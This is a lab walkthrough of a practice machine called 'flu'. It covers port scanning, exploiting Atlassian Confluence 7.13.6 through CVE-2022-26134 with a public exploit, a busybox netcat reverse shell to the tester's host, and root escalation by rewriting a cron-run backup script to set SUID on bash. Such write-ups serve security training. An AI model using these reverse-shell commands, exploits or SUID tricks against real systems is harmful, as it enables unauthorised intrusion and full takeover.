


Writeup by wook413

[TOC]

# Recon

## Nmap

As always, I started the machine with a comprehensive scan covering all 65,535 TCP ports, which identified ports 22, 8090 and 8091.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-  
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-07 18:22 UTC
Nmap scan report for 192.168.120.41
Host is up (0.046s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8090/tcp open  opsmessaging
8091/tcp open  jamlink

Nmap done: 1 IP address (1 host up) scanned in 16.10 seconds
```

Next, I performed a targeted service scan on the identified ports using the `-sC` and `-sV` options.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 22,8090,8091            
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-07 18:22 UTC
Stats: 0:00:21 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 18:23 (0:00:11 remaining)
Nmap scan report for 192.168.120.41
Host is up (0.046s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 02:79:64:84:da:12:97:23:77:8a:3a:60:20:96:ee:cf (ECDSA)
|_  256 dd:49:a3:89:d7:57:ca:92:f0:6c:fe:59:a6:24:cc:87 (ED25519)
8090/tcp open  http     Apache Tomcat (language: en)
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Log In - Confluence
|_Requested resource was /login.action?os_destination=%2Findex.action&permissionViolation=true
8091/tcp open  jamlink?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 204 No Content
|     Server: Aleph/0.4.6
|     Date: Sat, 07 Feb 2026 18:23:34 GMT
|     Connection: Close
|   GetRequest: 
|     HTTP/1.1 204 No Content
|     Server: Aleph/0.4.6
|     Date: Sat, 07 Feb 2026 18:23:03 GMT
|     Connection: Close
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Access-Control-Max-Age: 31536000
|     Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
|     Server: Aleph/0.4.6
|     Date: Sat, 07 Feb 2026 18:23:03 GMT
|     Connection: Close
|     content-length: 0
|   Help, Kerberos, LDAPSearchReq, LPDString, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 414 Request-URI Too Long
|     text is empty (possibly HTTP/0.9)
|   RTSPRequest: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Access-Control-Max-Age: 31536000
|     Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
|     Server: Aleph/0.4.6
|     Date: Sat, 07 Feb 2026 18:23:04 GMT
|     Connection: Keep-Alive
|     content-length: 0
|   SIPOptions: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Access-Control-Max-Age: 31536000
|     Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
|     Server: Aleph/0.4.6
|     Date: Sat, 07 Feb 2026 18:23:40 GMT
|     Connection: Keep-Alive
|_    content-length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at <https://nmap.org/cgi-bin/submit.cgi?new-service> :
SF-Port8091-TCP:V=7.95%I=7%D=2/7%Time=69878307%P=x86_64-pc-linux-gnu%r(Get
SF:Request,68,"HTTP/1\\.1\\x20204\\x20No\\x20Content\\r\\nServer:\\x20Aleph/0\\.4\\
SF:.6\\r\\nDate:\\x20Sat,\\x2007\\x20Feb\\x202026\\x2018:23:03\\x20GMT\\r\\nConnecti
SF:on:\\x20Close\\r\\n\\r\\n")%r(HTTPOptions,EC,"HTTP/1\\.1\\x20200\\x20OK\\r\\nAcce
SF:ss-Control-Allow-Origin:\\x20\\*\\r\\nAccess-Control-Max-Age:\\x2031536000\\r
SF:\\nAccess-Control-Allow-Methods:\\x20OPTIONS,\\x20GET,\\x20PUT,\\x20POST\\r\\n
SF:Server:\\x20Aleph/0\\.4\\.6\\r\\nDate:\\x20Sat,\\x2007\\x20Feb\\x202026\\x2018:23
SF::03\\x20GMT\\r\\nConnection:\\x20Close\\r\\ncontent-length:\\x200\\r\\n\\r\\n")%r(
SF:RTSPRequest,F1,"HTTP/1\\.1\\x20200\\x20OK\\r\\nAccess-Control-Allow-Origin:\\
SF:x20\\*\\r\\nAccess-Control-Max-Age:\\x2031536000\\r\\nAccess-Control-Allow-Me
SF:thods:\\x20OPTIONS,\\x20GET,\\x20PUT,\\x20POST\\r\\nServer:\\x20Aleph/0\\.4\\.6\\
SF:r\\nDate:\\x20Sat,\\x2007\\x20Feb\\x202026\\x2018:23:04\\x20GMT\\r\\nConnection:
SF:\\x20Keep-Alive\\r\\ncontent-length:\\x200\\r\\n\\r\\n")%r(Help,46,"HTTP/1\\.1\\x
SF:20414\\x20Request-URI\\x20Too\\x20Long\\r\\n\\r\\ntext\\x20is\\x20empty\\x20\\(pos
SF:sibly\\x20HTTP/0\\.9\\)")%r(SSLSessionReq,46,"HTTP/1\\.1\\x20414\\x20Request-
SF:URI\\x20Too\\x20Long\\r\\n\\r\\ntext\\x20is\\x20empty\\x20\\(possibly\\x20HTTP/0\\.
SF:9\\)")%r(TerminalServerCookie,46,"HTTP/1\\.1\\x20414\\x20Request-URI\\x20Too
SF:\\x20Long\\r\\n\\r\\ntext\\x20is\\x20empty\\x20\\(possibly\\x20HTTP/0\\.9\\)")%r(TL
SF:SSessionReq,46,"HTTP/1\\.1\\x20414\\x20Request-URI\\x20Too\\x20Long\\r\\n\\r\\nt
SF:ext\\x20is\\x20empty\\x20\\(possibly\\x20HTTP/0\\.9\\)")%r(Kerberos,46,"HTTP/1
SF:\\.1\\x20414\\x20Request-URI\\x20Too\\x20Long\\r\\n\\r\\ntext\\x20is\\x20empty\\x20
SF:\\(possibly\\x20HTTP/0\\.9\\)")%r(FourOhFourRequest,68,"HTTP/1\\.1\\x20204\\x2
SF:0No\\x20Content\\r\\nServer:\\x20Aleph/0\\.4\\.6\\r\\nDate:\\x20Sat,\\x2007\\x20Fe
SF:b\\x202026\\x2018:23:34\\x20GMT\\r\\nConnection:\\x20Close\\r\\n\\r\\n")%r(LPDStr
SF:ing,46,"HTTP/1\\.1\\x20414\\x20Request-URI\\x20Too\\x20Long\\r\\n\\r\\ntext\\x20i
SF:s\\x20empty\\x20\\(possibly\\x20HTTP/0\\.9\\)")%r(LDAPSearchReq,46,"HTTP/1\\.1
SF:\\x20414\\x20Request-URI\\x20Too\\x20Long\\r\\n\\r\\ntext\\x20is\\x20empty\\x20\\(p
SF:ossibly\\x20HTTP/0\\.9\\)")%r(SIPOptions,F1,"HTTP/1\\.1\\x20200\\x20OK\\r\\nAcc
SF:ess-Control-Allow-Origin:\\x20\\*\\r\\nAccess-Control-Max-Age:\\x2031536000\\
SF:r\\nAccess-Control-Allow-Methods:\\x20OPTIONS,\\x20GET,\\x20PUT,\\x20POST\\r\\
SF:nServer:\\x20Aleph/0\\.4\\.6\\r\\nDate:\\x20Sat,\\x2007\\x20Feb\\x202026\\x2018:2
SF:3:40\\x20GMT\\r\\nConnection:\\x20Keep-Alive\\r\\ncontent-length:\\x200\\r\\n\\r\\
SF:n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 112.08 seconds
```

Lastly, I conducted a UDP scan on the top 10 most common ports.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10               
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-07 18:25 UTC
Nmap scan report for 192.168.120.41
Host is up (0.047s latency).

PORT     STATE         SERVICE
53/udp   closed        domain
67/udp   closed        dhcps
123/udp  closed        ntp
135/udp  closed        msrpc
137/udp  closed        netbios-ns
138/udp  closed        netbios-dgm
161/udp  open|filtered snmp
445/udp  closed        microsoft-ds
631/udp  closed        ipp
1434/udp closed        ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 4.85 seconds
```

# Initial Access

## HTTP 8090 8091

Whenever an HTTP service is running, I run the Nmap `http-enum` script for quick wins. This revealed that port 8090 contained `/rest/applinks/1.0/manifest` , which pointed to **Atlassian Confluence 7.13.6** and `/webdav` .

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=http-enum -p 8090,8091
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-07 18:26 UTC
Nmap scan report for 192.168.120.41
Host is up (0.045s latency).

PORT     STATE SERVICE  VERSION
8090/tcp open  http     Apache Tomcat (language: en)
|_http-trane-info: Problem with XML parsing of /evox/about
| http-enum: 
|   /rest/applinks/1.0/manifest: Atlassian Confluence 7.13.6
|_  /webdav/: Potentially interesting folder (401 )
8091/tcp open  jamlink?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 204 No Content
|     Server: Aleph/0.4.6
|     Date: Sat, 07 Feb 2026 18:27:32 GMT
|     Connection: Close
|   GetRequest: 
|     HTTP/1.1 204 No Content
|     Server: Aleph/0.4.6
|     Date: Sat, 07 Feb 2026 18:27:02 GMT
|     Connection: Close
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Access-Control-Max-Age: 31536000
|     Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
|     Server: Aleph/0.4.6
|     Date: Sat, 07 Feb 2026 18:27:02 GMT
|     Connection: Close
|     content-length: 0
|   Help, Kerberos, LDAPSearchReq, LPDString, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 414 Request-URI Too Long
|     text is empty (possibly HTTP/0.9)
|   RTSPRequest: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Access-Control-Max-Age: 31536000
|     Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
|     Server: Aleph/0.4.6
|     Date: Sat, 07 Feb 2026 18:27:02 GMT
|     Connection: Keep-Alive
|     content-length: 0
|   SIPOptions: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Access-Control-Max-Age: 31536000
|     Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
|     Server: Aleph/0.4.6
|     Date: Sat, 07 Feb 2026 18:27:39 GMT
|     Connection: Keep-Alive
|_    content-length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at <https://nmap.org/cgi-bin/submit.cgi?new-service> :
SF-Port8091-TCP:V=7.95%I=7%D=2/7%Time=698783F6%P=x86_64-pc-linux-gnu%r(Get
SF:Request,68,"HTTP/1\\.1\\x20204\\x20No\\x20Content\\r\\nServer:\\x20Aleph/0\\.4\\
SF:.6\\r\\nDate:\\x20Sat,\\x2007\\x20Feb\\x202026\\x2018:27:02\\x20GMT\\r\\nConnecti
SF:on:\\x20Close\\r\\n\\r\\n")%r(HTTPOptions,EC,"HTTP/1\\.1\\x20200\\x20OK\\r\\nAcce
SF:ss-Control-Allow-Origin:\\x20\\*\\r\\nAccess-Control-Max-Age:\\x2031536000\\r
SF:\\nAccess-Control-Allow-Methods:\\x20OPTIONS,\\x20GET,\\x20PUT,\\x20POST\\r\\n
SF:Server:\\x20Aleph/0\\.4\\.6\\r\\nDate:\\x20Sat,\\x2007\\x20Feb\\x202026\\x2018:27
SF::02\\x20GMT\\r\\nConnection:\\x20Close\\r\\ncontent-length:\\x200\\r\\n\\r\\n")%r(
SF:RTSPRequest,F1,"HTTP/1\\.1\\x20200\\x20OK\\r\\nAccess-Control-Allow-Origin:\\
SF:x20\\*\\r\\nAccess-Control-Max-Age:\\x2031536000\\r\\nAccess-Control-Allow-Me
SF:thods:\\x20OPTIONS,\\x20GET,\\x20PUT,\\x20POST\\r\\nServer:\\x20Aleph/0\\.4\\.6\\
SF:r\\nDate:\\x20Sat,\\x2007\\x20Feb\\x202026\\x2018:27:02\\x20GMT\\r\\nConnection:
SF:\\x20Keep-Alive\\r\\ncontent-length:\\x200\\r\\n\\r\\n")%r(Help,46,"HTTP/1\\.1\\x
SF:20414\\x20Request-URI\\x20Too\\x20Long\\r\\n\\r\\ntext\\x20is\\x20empty\\x20\\(pos
SF:sibly\\x20HTTP/0\\.9\\)")%r(SSLSessionReq,46,"HTTP/1\\.1\\x20414\\x20Request-
SF:URI\\x20Too\\x20Long\\r\\n\\r\\ntext\\x20is\\x20empty\\x20\\(possibly\\x20HTTP/0\\.
SF:9\\)")%r(TerminalServerCookie,46,"HTTP/1\\.1\\x20414\\x20Request-URI\\x20Too
SF:\\x20Long\\r\\n\\r\\ntext\\x20is\\x20empty\\x20\\(possibly\\x20HTTP/0\\.9\\)")%r(TL
SF:SSessionReq,46,"HTTP/1\\.1\\x20414\\x20Request-URI\\x20Too\\x20Long\\r\\n\\r\\nt
SF:ext\\x20is\\x20empty\\x20\\(possibly\\x20HTTP/0\\.9\\)")%r(Kerberos,46,"HTTP/1
SF:\\.1\\x20414\\x20Request-URI\\x20Too\\x20Long\\r\\n\\r\\ntext\\x20is\\x20empty\\x20
SF:\\(possibly\\x20HTTP/0\\.9\\)")%r(FourOhFourRequest,68,"HTTP/1\\.1\\x20204\\x2
SF:0No\\x20Content\\r\\nServer:\\x20Aleph/0\\.4\\.6\\r\\nDate:\\x20Sat,\\x2007\\x20Fe
SF:b\\x202026\\x2018:27:32\\x20GMT\\r\\nConnection:\\x20Close\\r\\n\\r\\n")%r(LPDStr
SF:ing,46,"HTTP/1\\.1\\x20414\\x20Request-URI\\x20Too\\x20Long\\r\\n\\r\\ntext\\x20i
SF:s\\x20empty\\x20\\(possibly\\x20HTTP/0\\.9\\)")%r(LDAPSearchReq,46,"HTTP/1\\.1
SF:\\x20414\\x20Request-URI\\x20Too\\x20Long\\r\\n\\r\\ntext\\x20is\\x20empty\\x20\\(p
SF:ossibly\\x20HTTP/0\\.9\\)")%r(SIPOptions,F1,"HTTP/1\\.1\\x20200\\x20OK\\r\\nAcc
SF:ess-Control-Allow-Origin:\\x20\\*\\r\\nAccess-Control-Max-Age:\\x2031536000\\
SF:r\\nAccess-Control-Allow-Methods:\\x20OPTIONS,\\x20GET,\\x20PUT,\\x20POST\\r\\
SF:nServer:\\x20Aleph/0\\.4\\.6\\r\\nDate:\\x20Sat,\\x2007\\x20Feb\\x202026\\x2018:2
SF:7:39\\x20GMT\\r\\nConnection:\\x20Keep-Alive\\r\\ncontent-length:\\x200\\r\\n\\r\\
SF:n");

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 263.63 seconds
```

## HTTP 8090

As already indicated by the Nmap output, accessing the target IP at port 8090 via the browser confirmed it was an `Atlassian` service.



I performed directory brute-forcing with `Gobuster` , which returned multiple directories, including `/webdav` . I attempted to connect to `/webdav` using `cadaver` , but the connection was unsuccessful.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u <http://$IP:8090> -w /usr/share/seclists/Discovery/Web-Content/common.txt --exclude-length 0
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <http://192.168.120.41:8090>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] Exclude Length:          0
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/activity             (Status: 200) [Size: 417]
/favicon.ico          (Status: 200) [Size: 4259]
/status               (Status: 200) [Size: 19]
/webdav               (Status: 401) [Size: 699]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
```

I looked up `Confluence` in `Searchsploit` , but none of the available exploits matched version **7.13.6**.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit confluence
-------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                          |  Path
-------------------------------------------------------------------------------------------------------- ---------------------------------
AppFusions Doxygen for Atlassian Confluence 1.3.2 - Cross-Site Scripting                                | java/webapps/40817.txt
Atlassian Confluence 3.4.x - Error Page Cross-Site Scripting                                            | multiple/webapps/37791.txt
Atlassian Confluence 5.2/5.8.14/5.8.15 - Multiple Vulnerabilities                                       | xml/webapps/39170.txt
Atlassian Confluence 6.15.1 - Directory Traversal                                                       | jsp/webapps/47621.py
Atlassian Confluence 6.15.1 - Directory Traversal (Metasploit)                                          | jsp/webapps/47635.rb
Atlassian Confluence 7.12.2 - Pre-Authorization Arbitrary File Read                                     | java/webapps/50377.txt
Atlassian Confluence < 5.10.6 - Persistent Cross-Site Scripting                                         | jsp/webapps/40989.txt
Atlassian Confluence < 8.5.3 - Remote Code Execution                                                    | multiple/webapps/51904.py
Atlassian Confluence AppFusions Doxygen 1.3.0 - Directory Traversal                                     | java/webapps/40794.txt
Atlassian Confluence Data Center and Server - Authentication Bypass (Metasploit)                        | multiple/webapps/51829.rb
Atlassian Confluence Widget Connector Macro - SSTI                                                      | multiple/webapps/49465.py
Atlassian Confluence Widget Connector Macro - Velocity Template Injection (Metasploit)                  | multiple/remote/46731.rb
Confluence Data Center 7.18.0 - Remote Code Execution (RCE)                                             | java/webapps/50952.py
Confluence Server 7.12.4 - 'OGNL injection' Remote Code Execution (RCE) (Unauthenticated)               | java/webapps/50243.py
-------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

By searching for vulnerabilities for this specific version on Google, I discovered a Github repository containing an exploit. The author noted it had been tested against versions 7.13.5 and 7.18.0, which looked very promising.

https://github.com/jbaines-r7/through_the_wire

I downloaded the exploit to my local machine.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ git clone <https://github.com/jbaines-r7/through_the_wire.git>
Cloning into 'through_the_wire'...
remote: Enumerating objects: 25, done.
remote: Counting objects: 100% (25/25), done.
remote: Compressing objects: 100% (22/22), done.
remote: Total 25 (delta 12), reused 8 (delta 3), pack-reused 0 (from 0)
Receiving objects: 100% (25/25), 11.17 KiB | 11.17 MiB/s, done.
Resolving deltas: 100% (12/12), done.
```

# Shell as `confluence`

Using the exploit, I successfully obtained a shell as the `confluence` user.

```bash
┌──(kali㉿kali)-[~/Desktop/through_the_wire]
└─$ python3 through_the_wire.py --rhost $IP --rport 8090 --lhost 192.168.45.229 --protocol http:// --reverse-shell
/home/kali/Desktop/through_the_wire/through_the_wire.py:24: SyntaxWarning: invalid escape sequence '\\ '
  print("  /__   \\ |__  _ __ ___  _   _  __ _| |__  ")
/home/kali/Desktop/through_the_wire/through_the_wire.py:25: SyntaxWarning: invalid escape sequence '\\/'
  print("    / /\\/ '_ \\| '__/ _ \\| | | |/ _` | '_ \\ ")
/home/kali/Desktop/through_the_wire/through_the_wire.py:27: SyntaxWarning: invalid escape sequence '\\/'
  print("   \\/   |_| |_|_|  \\___/ \\__,_|\\__, |_| |_|")
/home/kali/Desktop/through_the_wire/through_the_wire.py:30: SyntaxWarning: invalid escape sequence '\\ '
  print("  /__   \\ |__   ___  / / /\\ \\ (_)_ __ ___  ")
/home/kali/Desktop/through_the_wire/through_the_wire.py:31: SyntaxWarning: invalid escape sequence '\\/'
  print("    / /\\/ '_ \\ / _ \\ \\ \\/  \\/ / | '__/ _ \\ ")
/home/kali/Desktop/through_the_wire/through_the_wire.py:32: SyntaxWarning: invalid escape sequence '\\ '
  print("   / /  | | | |  __/  \\  /\\  /| | | |  __/ ")
/home/kali/Desktop/through_the_wire/through_the_wire.py:33: SyntaxWarning: invalid escape sequence '\\/'
  print("   \\/   |_| |_|\\___|   \\/  \\/ |_|_|  \\___| ")

   _____ _                           _     
  /__   \\ |__  _ __ ___  _   _  __ _| |__  
    / /\\/ '_ \\| '__/ _ \\| | | |/ _` | '_ \\ 
   / /  | | | | | | (_) | |_| | (_| | | | |
   \\/   |_| |_|_|  \\___/ \\__,_|\\__, |_| |_|
                               |___/       
   _____ _            __    __ _           
  /__   \\ |__   ___  / / /\\ \\ (_)_ __ ___  
    / /\\/ '_ \\ / _ \\ \\ \\/  \\/ / | '__/ _ \\ 
   / /  | | | |  __/  \\  /\\  /| | | |  __/ 
   \\/   |_| |_|\\___|   \\/  \\/ |_|_|  \\___| 

                 jbaines-r7                
               CVE-2022-26134              
      "Spit my soul through the wire"    
                     🦞                   

[+] Forking a netcat listener
[+] Using /usr/bin/nc
[+] Generating a reverse shell payload
[+] Sending expoit at <http://192.168.120.41:8090/>
listening on [any] 1270 ...
connect to [192.168.45.229] from (UNKNOWN) [192.168.120.41] 60858
bash: cannot set terminal process group (820): Inappropriate ioctl for device
bash: no job control in this shell
confluence@flu:/opt/atlassian/confluence/bin$ whoami
whoami
confluence
confluence@flu:/opt/atlassian/confluence/bin$ 
```

Since the initial shell was unstable, I forwarded the reverse shell to my `penelope` listener using `busybox` and `nc` .

```bash
confluence@flu:/opt/atlassian/confluence/bin$ which busybox
which busybox
/usr/bin/busybox
confluence@flu:/opt/atlassian/confluence/bin$ which nc
which nc
/usr/bin/nc
confluence@flu:/opt/atlassian/confluence/bin$ busybox nc 192.168.45.229 443 -e /bin/bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 penelope.py -p 443                                                 
[+] Listening for reverse shells on 0.0.0.0:443 →  127.0.0.1 • 192.168.136.128 • 172.20.0.1 • 172.17.0.1 • 192.168.45.229
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[-] Invalid shell from 192.168.120.41 🙄
[+] Got reverse shell from flu~192.168.120.41-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/sessions/flu~192.168.120.41-Linux-x86_64/2026_02_07-19_10_27-115.log 📜
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
confluence@flu:/opt/atlassian/confluence/bin$ whoami
confluence
confluence@flu:/opt/atlassian/confluence/bin$ 
```

Found `local.txt`

```bash
confluence@flu:/home/confluence$ ls -la
total 24
drwxr-xr-x 4 confluence confluence 4096 Jan 31 16:41 .
drwxr-xr-x 3 root       root       4096 Dec 12  2023 ..
-rw------- 1 confluence confluence   16 Dec 12  2023 .bash_history
drwxr-x--- 3 confluence confluence 4096 Jan 31 16:41 .cache
drwxr-x--- 3 confluence confluence 4096 Jan 31 16:40 .java
-rw-r--r-- 1 confluence confluence   33 Feb  7 18:20 local.txt
confluence@flu:/home/confluence$ cat local.txt
a3e...
```

# Privilege Escalation

While searching for privilege escalation vectors, I found a highly unusual script named `log-backup.sh` in the `/opt` directory, owned by the `confluence` user.

```bash
confluence@flu:/opt$ ls -la
total 756692
drwxr-xr-x  3 root       root            4096 Dec 12  2023 .
drwxr-xr-x 19 root       root            4096 Dec 12  2023 ..
drwxr-xr-x  3 root       root            4096 Dec 12  2023 atlassian
-rwxr-xr-x  1 root       root       774829955 Dec 12  2023 atlassian-confluence-7.13.6-x64.bin
-rwxr-xr-x  1 confluence confluence       408 Dec 12  2023 log-backup.sh
```

The `log-backup.sh` file appears to be a script that creates backups of the `Confluence` server’s log files and perform cleanup afterward.

```bash
confluence@flu:/opt$ cat log-backup.sh 
#!/bin/bash

CONFLUENCE_HOME="/opt/atlassian/confluence/"
LOG_DIR="$CONFLUENCE_HOME/logs"
BACKUP_DIR="/root/backup"
TIMESTAMP=$(date "+%Y%m%d%H%M%S")

# Create a backup of log files
cp -r $LOG_DIR $BACKUP_DIR/log_backup_$TIMESTAMP

tar -czf $BACKUP_DIR/log_backup_$TIMESTAMP.tar.gz $BACKUP_DIR/log_backup_$TIMESTAMP

# Cleanup old backups
find $BACKUP_DIR -name "log_backup_*"  -mmin +5 -exec rm -rf {} \\;
```

I transferred `pspy64` to the target host to monitor running processes.

```bash
confluence@flu:/tmp$ wget <http://192.168.45.229/pspy64> pspy64
--2026-02-07 19:40:51--  <http://192.168.45.229/pspy64>
Connecting to 192.168.45.229:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                             100%[==============================================================>]   2.96M  4.57MB/s    in 0.6s    

2026-02-07 19:40:51 (4.57 MB/s) - ‘pspy64’ saved [3104768/3104768]

--2026-02-07 19:40:51--  <http://pspy64/>
Resolving pspy64 (pspy64)... failed: Temporary failure in name resolution.
wget: unable to resolve host address ‘pspy64’
FINISHED --2026-02-07 19:40:51--
Total wall clock time: 0.8s
Downloaded: 1 files, 3.0M in 0.6s (4.57 MB/s)
```

I discovered that the `root` user was executing the `log-backup.sh` script on a regular basis.



I modified the script’s contents to set the SUID bit on the `/bin/bash` binary.

```bash
confluence@flu:/opt$ echo "chmod u+s /bin/bash" > log-backup.sh 
confluence@flu:/opt$ cat log-backup.sh 
chmod u+s /bin/bash
```

After a short wait, I confirmed that the `/bin/bash` binary had the SUID bit set.

```bash
confluence@flu:/opt$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1437832 Jan  7  2023 /bin/bash
confluence@flu:/opt$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1437832 Jan  7  2023 /bin/bash
```

# Shell as `root`

I was then able to obtain a root shell by executing the `/bin/bash -p` command.

```bash
confluence@flu:/opt$ /bin/bash -p
bash-5.2# whoami
root
```

Found `proof.txt`

```bash
bash-5.2# cat proof.txt 
c78...
```